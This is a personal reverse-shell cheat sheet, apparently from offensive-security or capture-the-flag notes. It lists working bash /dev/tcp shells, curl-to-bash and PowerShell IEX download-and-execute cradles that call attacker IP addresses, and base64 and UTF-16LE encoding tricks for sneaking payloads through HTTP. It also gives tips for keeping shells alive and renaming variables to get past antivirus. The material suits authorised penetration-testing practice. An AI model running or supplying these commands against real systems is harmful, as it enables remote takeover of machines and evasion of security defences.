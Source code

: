# Reverse Shells - Examples

https://www.revshells.com/

# Test that we can rev shell

	Before trying to get a rev shell, we might want to try a ping <ip> into a tcp dump or a uname -a | nc <ip> <port>, to see if we actually get a callback

## Bash

	bash -i >& /dev/tcp/<YOUR_IP>/<NETCAT_PORT> 0>&1

	if the shell being used is dash and not bash (check by doing ls -la /bin/sh)

	bash -c "bash -i >& /dev/tcp/<YOUR_IP>/<NETCAT_PORT> 0>&1"
	To use the bash's built-in /dev/tcp device file the use must use /bin/bash as shell. Often it uses sh or dash, then you can use bash -c "<cmd>" to force the bash

## PHP

	https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php


## Fully interactive shell

In the reverse shell write

	python3 -c 'import pty;pty.spawn("/bin/bash")'

Put nc in the background by pressing CTRL+Z
then write

	stty raw -echo; fg;
	export TERM=xterm

## Powershell

Save a powershell from https://www.revshells.com/ to a file. Start the netcat listener and a http server in the dir of the revshell we just saved.
Download and execute the shell with this one liner:

	powershell.exe -c iex (iwr -UseBasicParsing http://10.10.14.119:8000/my_ps_shell.ps1)

## Tips

Ugrading the the reverse shell we got

	script /dev/null -c bash

Download reverse shell file and imediately execute it

	curl 'http://10.10.16.20:2020/test.sh'|bash

Convert shell to base64 when sending it through http:

	echo -n 'bash -i >& /dev/tcp/10.10.14.93/4444 0>&1' | base64 -w0
	YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC45My80NDQ0IDA+JjE=

	To get rid of the special characters like the plus sign just add double splaces:

	echo -n 'bash  -i  >&  /dev/tcp/10.10.14.93/4444  0>&1'
	YmFzaCAgLWkgID4mICAvZGV2L3RjcC8xMC4xMC4xNC45My80NDQ0ICAwPiYx

	Then when sending the payload do:
	echo -n YmFzaCAgLWkgID4mICAvZGV2L3RjcC8xMC4xMC4xNC45My80NDQ0ICAwPiYx | base64 -d | bash

	Try something but with 'bash -c "bash -i >& /dev/tcp/ip/port 0>&1"'

If the process of our shell is being killed by the target host, we can try creating in a new process:

	'nohup bash -c " bash -i >& /dev/tcp/ip/port 0>&1" &'

## Windows Reverse shells

Download nishang powershell:

	git clone https://github.com/samratashok/nishang.git

Copy the desired rev shell to your webserver directory:

	cp nishang/Shells/Invoke-PowerShellTcpOneLine.ps1 <webserver_path>/rev_shell.ps1

Delete the comments on the rev shell and change the ip and port to your localhost ip and netcat port. When starting the netcat use the rlwrap utility so that we have access to the up and down arrows for command history:

	rlwrap nc -nvlp 5555
	https://github.com/hanslub42/rlwrap.git

Now to download the rev_shell to the remote host we are gonna use a web cradle. The importance of this is that it something goes wrong and the antivirus blocks or connections, the web cradle helps determine what went wrong.

	IEX(New-Object Net.WebClient).downloadString('http://<web_server_ip>:<web_servber_port>/<rev_shell_name>.ps1')
	https://github.com/Andre92Marcos/myScripts/blob/main/web_cradle.ps1

If the web cradle does not reach our web server, we know that very likely the antivirus is blocking us from downloading the rev shell. Otherwise it problably is blocking the rev shell execution itself.

We change the relevant information in the web_cradle and next we are going to convert the web cradle to utf-16 little endian and then to base 64:

	cat web_cradle.ps1 | iconv -t utf-16le | base64 -w0

The reaseon we are converting to utf-16le is for Windows compability.

And finally we powershell the base64 string in the remote host:

	poweshell -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADYAOgA4ADAAMAAwAC8AcgBlAHYAXwBzAGgAZQBsAGwALgBwAHMAMQAnACkACgA=

If we get a hit on the webserver trying to download the shell, but don't get the shell on the nc we know that the web cradle is working but the antivirus is blocking the rev shell. If this happens try changing the cradle to:

	IEX(IWR -UseBasicParsing http://<web_server_ip>:<web_servber_port>/<rev_shell_name>.ps1)

And then change the var names in the rev shell script (already done in this shell):

	https://github.com/Andre92Marcos/myScripts/blob/main/rev_shell_anti_virus.ps1


## Resources

https://security-tips.vincd.com/reverse-shell/

https://github.com/samratashok/nishang